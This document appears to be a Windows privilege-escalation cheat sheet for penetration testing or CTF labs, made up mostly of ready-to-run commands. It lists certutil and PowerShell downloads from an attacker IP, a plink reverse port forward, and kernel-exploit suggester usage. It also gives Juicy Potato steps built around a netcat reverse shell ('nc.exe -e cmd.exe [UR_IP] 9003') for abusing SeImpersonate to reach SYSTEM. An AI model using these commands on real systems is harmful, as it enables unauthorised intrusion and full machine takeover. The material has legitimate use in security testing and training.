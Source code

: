 
Download file on the machine
```cmd
certutil -urlcache -f "<URL>" "<output_filename>"
powershell -Command "Invoke-WebRequest -Uri 'http://IP/FILE' -OutFile 'FILE'"
```

Port Forward port only available internally
```cmd
plink.exe -l root -pw root -R [Port]:127.0.0.1:[Port] [Ur_IP]
```
# Kernel Exploit

[Windows Kernel Exploit]([https://github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits))

Use [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) to find Vuln , first on you attacker machine
```bash
./windows-exploit-suggester.py --update
./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt 
```

Search online if any exploit is found

# WLS Escalation

To find where is the wls.exe
```cmd
where /R c:\ wsl.exe
```

# Potato Attack

See privilege first with 
```cmd
whoami /priv
```

Need to have one of these 2 privileges
```cmd
SeAssignPrimaryToken
SeImpersonate
```

And A COM server with a unique CLSID. The authors of juicy Potato compiled lists of unique CLSIDs for different Windows versions to abuse — [**_http://ohpe.it/juicy-potato/CLSID/_**](http://ohpe.it/juicy-potato/CLSID/).

https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/#eop-impersonation-privileges

[Rotten Potato](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)

[Juicy Potato](https://github.com/ohpe/juicy-potato)

1. Upload netcat to the victim
2. Upload a priv.bat file to the victim
```
C:\Users\kohsuke\Desktop\nc.exe -e cmd.exe [UR_IP] 9003
```
3. Listen on your machine
4. Upload JuicyPotato the the victim
5. Run JuicyPotato
```
jp.exe -p priv.bat -l 9003 -t * -c [CLSID]
```

# Alternate Data Stream

To see alternate data stream
```cmd
dir /R

EX : 34 hm.txt:root.txt:$DATA
```

To read it
```cmd
powershell -Command "Get-Content -Path 'hm.txt' -Stream 'root.txt'"

OR

more < hm.txt:root.txt:$DATA
```

# 
